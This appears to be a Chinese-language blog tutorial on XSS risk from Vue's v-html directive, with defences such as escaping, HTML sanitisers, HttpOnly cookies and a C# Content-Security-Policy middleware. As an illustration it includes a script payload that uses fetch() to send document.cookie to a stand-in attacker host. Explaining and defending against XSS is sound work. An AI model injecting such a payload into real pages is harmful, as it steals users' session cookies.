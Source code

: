 ```yaml
---
title: XSS Attack
date: 2025-04-12 23:58:57
categories:
 - 计算机网络
tags:
 - 计算机网络
 - 网络安全
---
```


## 1. 什么是 XSS

正常情况下，Vue 把数据当作纯文本显示:

```vue
<div>{{ content }}</div>
```

如果 `content` 是 `<b>加粗</b>`，页面会直接显示 `<b>加粗</b>`（文本，不会变粗）

但用 `v-html`，Vue 会把内容当作 HTML 代码 解析：

```html
<div v-html="content"></div>
```

同样的 `<b>加粗</b>`，页面会显示 加粗（实际渲染成粗体）

通俗说：`v-html` 就像告诉浏览器，“别把这串东西当文字，照着 HTML 的规则去执行，显示出效果”

**为什么要用 v-html？**

开发者用 `v-html` 是因为他们想让用户输入的 富文本（带格式的内容，比如加粗、斜体、链接）正确显示

- 显示用户格式化内容：比如，论坛或博客允许用户写文章，支持加粗 `<b>`、斜体 `<i>`、链接`<a>`
- 动态内容：网站从后端拿到 HTML 片段（比如广告代码、编辑器生成的 HTML），需要直接渲染

假设你想让用户在评论里用 `<b>加粗</b>`，显示成粗体

```vue
<div v-for="comment in comments" :key="comment.id" v-html="comment.content"></div>
```

用户输入 `<b>好棒<b>`，页面显示 **好棒**（粗体）

**为什么 `v-html` 导致 XSS 风险？**

虽然 `v-html` 很方便，但它有个大问题：它会把内容当作代码执行，包括危险的 JavaScript, `v-html` 不挑内容，任何 HTML 都照跑

在我们之前的代码中：

```vue
<div v-for="comment in comments" :key="comment.id" v-html="comment.content"></div>
```

用户在评论框输入：

```vue
<script>fetch('https://attacker.com/steal?cookie=' + document.cookie)</script>
```

后端（C#）保存到数据库，前端用 `v-html` 渲染, 浏览器看到 `<script>`，直接运行，偷走用户的 Cookie

**为什么不用 `v-html`就没事？**

Vue 默认的 `{{ content }}` 或 `v-text` 把内容当纯文本，不会执行 HTML 或 JavaScript

输入 `<script>alert('坏蛋')</script>`： `{{ content }}`：显示 `<script>alert('坏蛋')</script>`（文字）

恶意代码变成普通文字，XSS 没了

**那什么时候用 v-html 才安全？**

- 前端清理用户输入: 用库（如 `sanitize-html`）移除危险标签（`<script>`、`<iframe>`）
- 后端也清理: C# 后端用 `HtmlSanitizer` 过滤`comment.Content = sanitizer.Sanitize(comment.Content);`

## 2. 总结

**啥是 v-html？** Vue 的一个功能，让 HTML 代码（比如 <b>加粗</b>）变成页面效果（粗体），而不是干显示文字

**为啥用？** 想让用户加粗、加链接，页面好看点（比如评论支持格式）

**为啥危险？** 用户塞 `<script>`，浏览器照跑，偷 Cookie、搞乱子、骗密码

**咋安全？**

- 不用 `v-html`，用 `{{ }}` 显示文字
- 真要用，清理输入（`sanitize-html` 或后端 `HtmlSanitizer`）
- 锁 Cookie（HttpOnly），限脚本（CSP）

**所有网站都这样？** 不，安全网站会清理输入，现代框架默认防 XSS，只有不小心的开发者才中招

> **锁 Cookie（HttpOnly）**
>
> 正常情况下，JavaScript（比如 `<script>document.cookie</script>`）可以读 Cookie，攻击者通过 XSS 注入脚本就能偷
>
> 设了 HttpOnly, `document.cookie` 就拿不到这个 Cookie
>
> **限脚本（CSP）**
>
> CSP（Content Security Policy，内容安全策略） 是网站告诉浏览器的一条规则：“只允许跑我信任的脚本，其他的都禁！”
>
> ```c#
> // Program.cs
> app.Use(async (context, next) =>
> {
>     context.Response.Headers.Add("Content-Security-Policy", 
>         "default-src 'self'; script-src 'self'; connect-src 'self'");
>     await next();
> });
> ```
>
> - 确保你的 Vue 代码不依赖外部脚本（比如 CDN），全用本地资源，符合 CSP 规则

